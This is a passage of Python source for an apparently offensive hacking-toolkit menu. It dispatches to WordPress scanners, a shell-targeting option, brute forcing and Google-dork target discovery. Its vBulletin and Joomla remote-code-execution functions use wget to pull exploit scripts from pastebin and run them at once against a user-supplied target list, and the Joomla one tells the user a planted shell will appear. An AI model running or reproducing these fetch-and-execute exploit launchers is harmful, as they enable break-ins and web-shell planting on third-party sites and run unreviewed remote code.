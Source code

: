         clearScr()
        wpminiscanner()
    if choiceweb == "7":
        clearScr()
        wppluginscan()
    if choiceweb == "8":
        clearScr()
        shelltarget()
    if choiceweb == "9":
        clearScr()
        joomlarce()
    if choiceweb == "10":
        clearScr()
        vbulletinrce()
    if choiceweb == "11":
        clearScr()
        brutex()
    if choiceweb == "12":
        clearScr()
        arachni()
    elif choiceweb == "99":
        menu()
    elif choiceweb == "":
        menu()
    else:
        menu()


def vbulletinrce():
    os.system("wget http://pastebin.com/raw/eRSkgnZk --output-document=tmp.pl")
    os.system("perl tmp.pl")


def joomlarce():
    os.system("wget http://pastebin.com/raw/EX7Gcbxk --output-document=temp.py")
    clearScr()
    print("if the response is 200 , you will find your shell in Joomla_3.5_Shell.txt")
    jmtarget = raw_input("Select a targets list :")
    os.system("python temp.py %s" % jmtarget)


def inurl():
    dork = raw_input("select a Dork:")
    output = raw_input("select a file to save :")
    os.system(
        "./inurlbr.php --dork '{0}' -s {1}.txt -q 1,6 -t 1".format(dork, output))
    if cinurl in no:
        insinurl()
    elif cinurl == "":
        menu()
    else:
        menu()


def insinurl():
    os.system("git clone https://github.com/googleinurl/SCANNER-INURLBR.git")
    os.system("chmod +x SCANNER-INURLBR/inurlbr.php")
    os.system("apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl")
    os.system("mv /SCANNER-INURLBR/inurbr.php inurlbr.php")
    clearScr()
    inurl()
